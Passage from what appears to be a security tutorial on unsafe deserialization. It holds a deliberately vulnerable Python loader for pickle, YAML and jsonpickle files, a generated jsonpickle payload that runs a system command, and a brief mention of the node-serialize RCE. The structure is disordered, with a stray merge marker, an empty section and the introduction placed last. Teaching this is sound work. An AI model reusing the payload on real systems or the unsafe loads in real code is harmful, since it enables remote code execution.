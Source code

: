 ```bash
```

To test our payloads, and for simplicity, we'll use the following vulnerable code:

```python
import _pickle
import sys
import yaml
import jsonpickle

if sys.argv[1] == "b":
    with open("payload.bin", "rb") as payload:
        _pickle.loads(payload.read())
elif sys.argv[1] == "y":
    with open("payload.yml", "r") as payload:
        if float(yaml.__version__) <= 5.1: 
            yaml.load(payload)
        else:
            yaml.unsafe_load(payload)
elif sys.argv[1] == "j":
    with open("payload.json", "r") as payload:
        jsonpickle.decode(payload.read())
```

To generate a valid payload for jsonpickle, for example, we can use the script with the following args:

```bash
$ python PayloadGenerator.py -f json -v os -c "cmd /c calc"
[+] Generating serialized object for:
    cmd /c calc
[+] Final Payload:
    {"py/reduce": [{"py/function": "nt.system"}, {"py/tuple": ["cmd /c calc"]}]}
```

#### References

* [PyYAML - Exploit-DB](https://www.exploit-db.com/docs/47655)
* [Exploiting jsonpickle](https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/)

### Ruby

### NodeJS

NodeJS serialization is mainly handled by the `node-serialize`
node module. In 2017, this module was found to allow deserialization of untrusted objects, leading to RCE.

=======
# The big problem of serialization

One of the biggest security issues affecting OOP Languages during the last years was "Unsafe Deserialization". As a wide range of literature is already available for this issue, the main objective of this document is not to introduce something new about it, but to provide a brief and precise explaination of the vulnerability, as well as common exploitation and detection methods, which can be applied on different programming languages. 
